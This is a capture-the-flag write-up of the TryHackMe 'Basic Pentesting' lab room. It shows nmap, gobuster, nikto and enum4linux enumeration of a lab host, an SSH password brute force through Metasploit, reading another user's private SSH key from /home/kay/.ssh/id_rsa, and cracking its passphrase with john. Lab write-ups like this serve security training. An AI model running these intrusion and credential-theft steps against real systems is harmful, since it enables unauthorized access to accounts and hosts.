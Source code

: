 # Basic Pentesting
https://tryhackme.com/room/basicpentestingjt
---
## Enumeration

- **IP Address:** 10.10.73.11

### gobuster
`gobuster dir -u 10.10.73.11 -x .php,.xml,.html -w /usr/share/wordlists/dirb/common.txt`
<pre>
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.xml (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
[/development (Status: 301)](###10.10.73.11/development/)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

### nmap
`nmap -A -T5 -p- 10.10.73.11`
<pre>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown\>
(unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-05-18T12:25:16-04:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2021-05-18T16:25:16                                                                                                                                                                                                              
|_  start_date: N/A
</pre>



### nikto
`nikto -h 10.10.73.11`
<pre>
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.

</pre>
### Wappalyzer
- **Webserver:** Apache 2.4.18
- **OS:** Ubuntu
---
## Investigation

### /index.html
- Just shows undergoing maintenance

### /development/

Contains: 
1. j.txt
- Reveals that they are using vers 2.5.12, using "struts"
-- [Exploitdb shows vers 2.5.12 of vulnerable to RCE](https://www.exploit-db.com/exploits/42627)
- Shows SMB configured, nmap shows it as 2.02
2. dev.txt 
- Reveals that user "j" has a weak password hash


## Intrusion

1. ~~port 8009 allows POST, maybe inject the vuln found on exploitDB above?~~
2. SMB port 445 is open for [enum4linux](https://tools.kali.org/information-gathering/enum4linux) 
`enum4linux -a 10.10.73.11`
- gives us "jan" and "kay"
3. brute force using ssh with metasploit
- open metasploit
- set options 
```  
search ssh
use 18
set USERNAME jan
set RHOSTS 10.10.73.11
set RPORT 22
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```
- **password:** ___REDACTED___

## post-intrusion

`cd /tmp`
- `nano linenum.sh` and copy paste [enumeration script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- ~~check for GTFO bins~~
- ~~check for relaxed permissions~~
- go looking in /home/kay for some information
` cat /home/kay/.ssh/id_rsa`

on local machine:
`ssh -i kaykey kay@10.10.73.11`
- connection asks for passphrase?

```
ssh2john.py kaykey > johnkey
john -wordlist=/usr/share/wordlists/rockyou.txt johnkey
```
passphrase= ___REDACTED___

- `ssh -i kaykey kay@10.10.73.11`
- **passphrase:** ___REDACTED___
- `cat pass.bak`
___REDACTED___
